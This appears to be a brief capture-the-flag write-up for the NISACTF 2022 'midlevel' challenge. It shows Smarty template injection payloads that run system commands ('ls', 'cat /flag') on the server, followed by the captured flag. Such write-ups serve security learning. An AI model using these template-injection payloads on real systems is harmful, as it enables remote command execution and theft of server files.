 ## [NISACTF 2022]midlevel

> Smarty 模板注入

```
{if system('ls')}{/if}
```

![image-20250108222951795](https://gitee.com/bx33661/image/raw/master/path/image-20250108222951795.png)

```(空)
{if system('cat /flag')}{/if}
```

![image-20250108223117255](https://gitee.com/bx33661/image/raw/master/path/image-20250108223117255.png)

NSSCTF{fd506414-0b65-4e2f-a7bb-c2a8bd464b1c}